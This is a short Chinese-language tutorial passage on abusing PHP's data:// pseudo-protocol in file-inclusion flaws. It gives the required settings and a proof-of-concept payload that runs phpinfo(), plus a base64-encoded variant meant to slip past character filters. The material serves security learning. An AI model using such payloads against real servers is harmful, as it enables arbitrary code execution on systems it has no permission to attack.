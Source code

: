 ![7f04b0e59fda44cdb669d99fa315410b](assets/7f04b0e59fda44cdb669d99fa315410b.png)

#### 4.data://协议

```
data:// 同样类似与php://input，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行。从而导致任意代码执行。

利用data:// 伪协议可以直接达到执行php代码的效果，例如执行phpinfo()函数：
```

```
利用条件:

1.allow_url_fopen ：on

2.allow_url_include：on
```

POC为:

```
data://text/plain,<?php phpinfo();?>
//如果此处对特殊字符进行了过滤，我们还可以通过base64编码后再输入：
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
```

![fdf0d4eb7b9f4b40b4e22b6990162cb8](assets/fdf0d4eb7b9f4b40b4e22b6990162cb8.png)
